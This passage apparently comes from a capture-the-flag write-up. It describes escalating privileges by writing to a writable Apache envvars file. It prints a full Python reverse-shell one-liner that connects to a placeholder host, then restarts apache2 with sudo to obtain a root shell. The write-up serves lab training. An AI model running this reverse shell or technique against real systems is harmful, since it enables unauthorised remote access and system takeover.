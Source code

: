 * Running **linpeas** will reveal that the envvars file in /etc/apache2 is writable by anders.

> [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

![intranet26](/images/intranet26.png)

* All we have to do now it to add the same python reverse shell that we used before into the **envvars** file and then restart the apache2 server.

```
echo 'python -c '\''import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'\''' > envvars
```
![intranet27](/images/intranet27.png)

* When we restart the server with sudo permissions, envvars is called and we get our reverse shell.

![intranet28](/images/intranet28.png)